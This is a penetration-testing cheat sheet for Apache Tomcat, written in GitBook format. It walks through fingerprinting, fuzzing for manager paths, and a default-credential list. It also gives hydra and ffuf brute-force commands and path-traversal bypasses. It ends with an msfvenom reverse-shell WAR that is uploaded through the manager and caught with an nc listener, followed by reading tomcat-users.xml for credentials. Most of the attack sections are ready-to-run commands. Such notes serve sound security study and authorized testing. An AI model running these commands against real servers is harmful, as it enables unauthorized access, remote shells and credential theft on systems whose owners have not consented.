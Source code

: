# Apache Tomcat

## Theory

Apache Tomcat (called "Tomcat" for short) is a free and open-source implementation of the Jakarta Servlet, Jakarta Expression Language, and WebSocket technologies. It provides a "pure Java" HTTP web server environment in which Java code can also run.

## Practice

#### Enumeration

{% tabs %}
{% tab title="Fingerprinting" %}
We can attempt to trigger an error on the website as a method of fingerprinting. If the error is similar as the one below, this indicates that the website is running Tomcat.

```bash
$ curl http://target.com/DoesNotExist
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="Version Identification" %}
To find the version of Apache Tomcat, a simple command can be executed:

```bash
curl -s http://tomcat-site.local:8080/docs/ | grep Tomcat 
```

This will search for the term "Tomcat" in the documentation index page, revealing the version in the title tag of the HTML response.
{% endtab %}

{% tab title="Manager Files Location" %}
Identifying the exact locations of **`/manager`** and **`/host-manager`** directories is crucial as their names might be altered. A brute-force search is recommended to locate these pages.

```bash
ffuf -u https://example.com/FUZZ -w directories.txt
ffuf -u https://example.com/host-manager/FUZZ -w 
ffuf -u https://example.com/manager/FUZZ -w directories.txt
```

Below are common directories for Apache Tomcat.

```
/examples
/examples/jsp/cal/login.html
/examples/jsp/error/error.html
/examples/jsp/snp/snoop.jsp
/examples/servlet/HelloWorldEXample
/examples/servlet/JndiServlet
/examples/servlet/RequestHeaderExample
/examples/servlet/RequestInfoExample
/examples/servlet/RequestParamExample

/host-manager

/manager
/manager/jmxproxy/?qry=STUFF
/manager/status
/manager/status/all
# We can execute commands in /manager/text/ directory
/manager/text/{command}?{parameters}
/manager/text/deploy?path=/foo
/manager/text/list
/manager/text/resources
/manager/text/serverinfo
/manager/text/vminfo
```
{% endtab %}

{% tab title="Username Enumeration" %}
&#x20;It's possible to enumerate usernames through metasploit:

{% hint style="warning" %}
It only works for Tomcat versions **older than 6**
{% endhint %}

```bash
msf> use auxiliary/scanner/http/tomcat_enum
msf> set TARGETURI /manager  # depending on the website
```
{% endtab %}
{% endtabs %}

#### Credentials

{% tabs %}
{% tab title="Default Credentials" %}
The **`/manager/html`** directory is particularly sensitive as it allows the upload and deployment of WAR files, which can lead to code execution. This directory is protected by basic HTTP authentication, with common credentials being:

```
admin:(empty)
admin:admin
admin:password
admin:password1
admin:Password1
admin:tomcat
manager:manager
root:changethis
root:password
root:password1
root:root
root:r00t
root:toor
tomcat:(empty)
tomcat:admin
tomcat:changethis
tomcat:password
tomcat:password1
tomcat:s3cret
tomcat:tomcat
```
{% endtab %}

{% tab title="Brute Force Attack" %}
To attempt a brute force attack on the manager directory, we may use one of the following commands:

```bash
# FFUF
ffuf -u https://tomcat:FUZZ@example.com/manager -w passwords.txt -fs 140

# Hydra
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f <TARGET> http-get /manager/html
```
{% endtab %}
{% endtabs %}

#### Common Vulnerabilities <a href="#common-vulnerabilities" id="common-vulnerabilities"></a>

{% tabs %}
{% tab title="Path Traversal Exploit" %}
In some [**vulnerable configurations of Tomcat**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) you can gain access to protected directories in Tomcat using the path: `/..;/`

So, for example, you might be able to **access the Tomcat manager** page by accessing: `www.vulnerable.com/lalala/..;/manager/html`

**Another way** to bypass protected paths using this trick is to access `http://www.vulnerable.com/;param=value/manager/html`
{% endtab %}

{% tab title="Password Backtrace Disclosure" %}
Accessing `/auth.jsp` may reveal the password in a backtrace under fortunate circumstances.
{% endtab %}

{% tab title="Double URL Encoding" %}
The CVE-2007-1860 vulnerability in `mod_jk` allows for double URL encoding path traversal, enabling unauthorized access to the management interface via a specially crafted URL.

In order to access to the management web of the Tomcat go to: `pathTomcat/%252E%252E/manager/html`
{% endtab %}

{% tab title="/examples" %}
Apache Tomcat versions 4.x to 7.x include example scripts that are susceptible to information disclosure and cross-site scripting (XSS) attacks. These scripts, listed comprehensively, should be checked for unauthorized access and potential exploitation. Find [more info here](https://www.rapid7.com/db/vulnerabilities/apache-tomcat-example-leaks/)

* /examples/jsp/num/numguess.jsp
* /examples/jsp/dates/date.jsp
* /examples/jsp/snp/snoop.jsp
* /examples/jsp/error/error.html
* /examples/jsp/sessions/carts.html
* /examples/jsp/checkbox/check.html
* /examples/jsp/colors/colors.html
* /examples/jsp/cal/login.html
* /examples/jsp/include/include.jsp
* /examples/jsp/forward/forward.jsp
* /examples/jsp/plugin/plugin.jsp
* /examples/jsp/jsptoserv/jsptoservlet.jsp
* /examples/jsp/simpletag/foo.jsp
* /examples/jsp/mail/sendmail.jsp
* /examples/servlet/HelloWorldExample
* /examples/servlet/RequestInfoExample
* /examples/servlet/RequestHeaderExample
* /examples/servlet/RequestParamExample
* /examples/servlet/CookieExample
* /examples/servlet/JndiServlet
* /examples/servlet/SessionExample
* /tomcat-docs/appdev/sample/web/hello.jsp
{% endtab %}
{% endtabs %}

#### Remote Code Execution (RCE)

{% tabs %}
{% tab title="Uploading WAR file " %}
If you have access to the Tomcat Web Application Manager, you can **upload and deploy a .war file (execute code)**.

{% hint style="warning" %}
You will only be able to deploy a WAR if you have **enough privileges** (roles: **admin**, **manager** and **manager-script**).
{% endhint %}

First create a war file using Msfvenom.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<local-ip> LPORT=80 -f war -o shell.war
```

Then upload this file.

```bash
curl --upload-file shell.war -u 'tomcat:password' "https://example.com/manager/text/deploy?path=/shell"
```

Start a listener in local machine.

```bash
sudo rlwrap nc -lvnp 80
```

Now access to `https://example.com/shell`. We should get a shell.
{% endtab %}
{% endtabs %}

#### Post-Exploitation

{% tabs %}
{% tab title="Crential Access" %}
If we are in the target system, we can retrieve information about credentials.

```bash
find / -name "tomcat-users.xml" 2>/dev/null
cat tomcat-users.xml
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat" %}

{% embed url="https://exploit-notes.hdks.org/exploit/web/apache-tomcat-pentesting/" %}
